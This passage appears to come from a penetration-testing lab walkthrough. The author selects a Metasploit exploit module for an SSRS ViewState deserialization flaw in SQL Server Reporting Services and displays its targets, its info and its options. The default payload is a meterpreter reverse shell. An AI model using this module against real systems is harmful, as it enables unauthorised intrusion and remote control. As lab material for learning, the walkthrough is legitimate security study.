 Recall that we are dealing with Microsoft SQL Server 2017, and only one of these has an Disclosure Date of later than that, so we choose that one:
```
msf6 > use exploit/windows/http/ssrs_navcorrector_viewstate
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/ssrs_navcorrector_viewstate) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows (x86)
   1   Windows (x64)
   2   Windows (cmd)


msf6 exploit(windows/http/ssrs_navcorrector_viewstate) > show info

       Name: SQL Server Reporting Services (SSRS) ViewState Deserialization
     Module: exploit/windows/http/ssrs_navcorrector_viewstate
   Platform: Windows
       Arch:
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2020-02-11

Provided by:
  Soroush Dalili
  Spencer McIntyre

Module side effects:
 artifacts-on-disk
 ioc-in-logs

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
  Id  Name
  --  ----
  0   Windows (x86)
  1   Windows (x64)
  2   Windows (cmd)

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  DOMAIN     WORKSTATION      yes       The domain to use for Windows authentication
  PASSWORD                    yes       The password to authenticate with
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT      80               yes       The target port (TCP)
  SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT    8080             yes       The local port to listen on.
```